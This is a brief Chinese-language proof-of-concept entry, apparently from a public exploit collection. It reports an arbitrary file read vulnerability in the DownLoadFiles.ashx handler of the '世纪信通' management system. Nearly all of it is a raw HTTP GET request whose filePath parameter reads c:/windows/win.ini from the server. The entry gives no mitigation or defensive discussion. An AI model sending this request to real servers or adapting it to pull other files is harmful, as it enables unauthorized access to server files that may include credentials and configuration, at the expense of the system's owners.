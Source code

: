 ## 世纪信通管理系统DownLoadFiles.ashx存在任意文件读取


## poc
```
GET /WeChatConfig/ashx/DownLoadFiles.ashx?filePath=c:/windows/win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_10) AppleWebKit/600.1.25 (KHTML, like Gecko) Version/12.0 Safari/1200.1.25X
Content-Length: 4
```
